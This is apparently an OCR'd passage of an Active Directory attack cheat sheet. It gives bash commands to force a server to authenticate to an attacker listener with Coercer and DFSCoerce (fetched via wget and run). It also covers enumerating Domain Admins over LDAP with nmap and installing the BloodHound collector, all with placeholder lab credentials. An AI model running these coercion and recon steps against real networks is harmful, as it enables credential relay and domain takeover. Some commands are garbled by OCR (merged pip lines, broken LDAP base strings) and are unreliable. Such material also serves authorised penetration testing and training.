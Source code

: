 #### Coerce 6 - w/ Creds - Coercer forced authentication of a server to our machine
```bash
listen="192.168.0.243"
ip="192.168.0.238"
cidr="192.168.0.0/24"
user="adelev"
password="Password123"
domain="shrine"
fqdn="shrine.earth"
dc="domain.shrine.earth"
pip install coercer
coercer scan -t $ip -u $user -p $password -d $fqdn -v
coercer coerce -t $ip -l $listen -u $user -p $password -d $fqdn -v
```

#### Coerce 7 - w / Creds - DFSCoerce (domain controller only)
```bash
wget https://raw.githubusercontent.com/Wh04m1001/DFSCoerce/main/dfscoerce.py
chmod +x ./dfscoerce.py
./dfscoerce.py -d $fqdn -u $user -p $password $listen $ip
```


# Phase 2: New in Town - First Creds

## 2a. Over and Over, until it's done

### LDAP - Recon with nmap using first basic user rights
```bash
ip="$ip"
nmap -p 389 --script ldap-search \
--script-args "ldap.username=$fqdn$user',ldap.password='$password',ldap.base='dc$fqdnth',ldap.filter='(&(objectclass=user)(|(memberof=CN=Domain Admins,CN=Users,DC$fqdnth)(memberof=CN=Administrators,CN=Builtin,DC$fqdnth)))'" \
-oA domainrecon $ip
```

### Bloodhound
#### Linux Version - Python Collector
```bash
pip install impacket
pip install ldap3
pip install dnsimpacket-pip install bloodhound
``` 
 or
 
```bash 
git clone https://github.com/fox-it/BloodHound.py.git
cd BloodHound.py
pip install .
```
